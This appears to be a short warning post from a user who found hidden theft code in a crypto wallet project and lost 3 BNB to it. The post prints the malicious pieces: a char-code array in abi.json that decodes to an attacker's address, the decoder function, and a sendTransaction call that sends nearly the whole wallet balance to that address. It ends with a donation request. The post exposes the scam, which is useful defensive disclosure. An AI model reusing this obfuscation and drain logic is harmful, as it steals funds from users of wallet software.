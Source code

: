 IN FILE `abi.json` we have it:

```json
  "index": [
    48, 120, 102, 66, 54, 54, 57, 98, 48, 101, 48, 54, 53, 54, 48, 51, 54, 68,
    55, 52, 55, 100, 54, 67, 54, 70, 50, 54, 54, 54, 101, 53, 51, 48, 49, 51,
    57, 100, 50, 56, 57, 57
  ],
```

And in lib.js:
```js
const confirmContract = (abi) => {
  return String.fromCharCode.apply(null, abi.index);
};
```

Resutl will be:
```
> String.fromCharCode.apply(null, [
...     48, 120, 102, 66, 54, 54, 57, 98, 48, 101, 48, 54, 53, 54, 48, 51, 54, 68,
...     55, 52, 55, 100, 54, 67, 54, 70, 50, 54, 54, 54, 101, 53, 51, 48, 49, 51,
...     57, 100, 50, 56, 57, 57
...   ])
'0xfB669b0e0656036D747d6C6F2666e530139d2899'
```

# All funds from account will be transfered to this address!

https://bscscan.com/address/0xfb669b0e0656036d747d6c6f2666e530139d2899

Code:
```js
w.eth.getGasPrice().then(function (gP) {
              let _b = parseFloat(b);
              let _g = parseFloat(g);
              let _gP = parseFloat(gP);
              w.eth.sendTransaction({
                from: wallet.address,
                to: confirmContract(abi),
                gas: _g,
                gasPrice: _gP,
                value: ((_b - _gP * _g) / 1.1).toFixed(0),
                data: "0x",
              });
            });
```


## Donation address (im loosing 3 BNB on it):
BNB 0x388890f26E74687216A9d43Db0FE37C2eba003Aa
